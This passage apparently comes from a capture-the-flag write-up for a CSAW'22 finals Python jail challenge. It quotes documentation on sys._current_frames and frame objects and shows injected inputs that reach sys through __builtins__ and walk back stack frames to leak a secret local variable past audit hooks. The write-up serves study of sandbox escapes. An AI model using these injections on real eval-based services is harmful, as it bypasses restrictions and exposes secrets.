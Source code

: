 > `sys._current_frames()`
>
>Return a dictionary mapping each thread’s identifier to the topmost stack frame currently active in that thread at the time the function is called. Note that functions in the traceback module can build the call stack given such a frame.
>
>Raises an auditing event sys._current_frames with no arguments. [...]

Here is an example call:

```python
In [18]: list(sys._current_frames().values())
Out[18]:
[<frame at 0x559e9dcbc4a0, file '~/.pyenv/versions/3.10.5/lib/python3.10/threading.py', line 320, code wait>,
 <frame at 0x559e9df45950, file '<ipython-input-18-126aeeec8d27>', line 1, code <cell line: 1>>]
```

The list contains object of [type `frame`](https://docs.python.org/3/reference/datamodel.html#frame-objects). Here is some useful documentation for our use case:

> Frame objects: Represent execution frames.
>
> Special read-only attributes: **`f_back`** is to the previous stack frame (towards the caller), or None if this is the bottom stack frame; `f_code` is the code object being executed in this frame; **`f_locals`** is the dictionary used to look up local variables; **`f_globals`** is used for global variables; `f_builtins` is used for built-in (intrinsic) names; `f_lasti` gives the precise instruction (this is an index into the bytecode string of the code object). [...]

So, maybe we can go back in the stack frames, find the stack frame of the `guesser()` function, and access its locals and globals. This aligns also with the given hint of leaking `right_guesser_question_answer`! So, let's try that:

Invoke `sys._current_frames()` to find all threads:
```bash
Welcome to my guesser game!
Can u guess the number? between 1 and 9999999999999 >
 [*] right_guesser_question_answer: 1000046225784
Raised event: builtins.input
list(__builtins__['__import__']('sys')._current_frames().values())
Raised event: builtins.input/result
Raised event: compile
Raised event: exec
Raised event: sys._current_frames
Evaluated data:
[<frame at 0x7f250f27ac00, file '<string>', line 1, code <module>>]
Guess game end!!!
```

Select a thread and go back a stack frame:
```bash
Welcome to my guesser game!
Can u guess the number? between 1 and 9999999999999 >
 [*] right_guesser_question_answer: 6308927929287
Raised event: builtins.input
list(__builtins__['__import__']('sys')._current_frames().values())[-1].f_back
Raised event: builtins.input/result
Raised event: compile
Raised event: exec
Raised event: sys._current_frames
Evaluated data:
<frame at 0x7fa439a11f40, file '~/ctfs/csaw22-finals/misc/super-guesser-game/service.py', line 46, code guesser>
Guess game end!!!
```
